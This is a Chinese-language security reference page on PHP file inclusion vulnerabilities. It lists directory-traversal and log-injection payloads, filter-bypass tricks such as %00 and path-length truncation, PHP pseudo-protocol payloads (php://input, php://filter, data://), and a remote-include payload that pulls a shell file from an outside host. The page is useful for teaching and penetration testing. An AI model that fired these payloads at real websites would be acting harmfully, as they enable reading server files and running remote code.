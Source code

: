 文件包含
========================================

基础
----------------------------------------
常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用 ``/proc/self/environ``

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

触发Sink
----------------------------------------
- PHP
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once


绕过技巧
----------------------------------------
常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

url编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

特殊字符绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

%00截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
几乎是最常用的方法，条件是 ``magic_quotes_gpc`` 关闭，而且php版本小于5.3.4。

长度截断
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

伪协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

协议绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``allow_url_fopen`` 和 ``allow_url_include`` 主要是针对 ``http`` ``ftp`` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。

参考链接
----------------------------------------
- `Exploit with PHP Protocols <https://www.cdxy.me/?p=752>`_
- `lfi cheat sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_
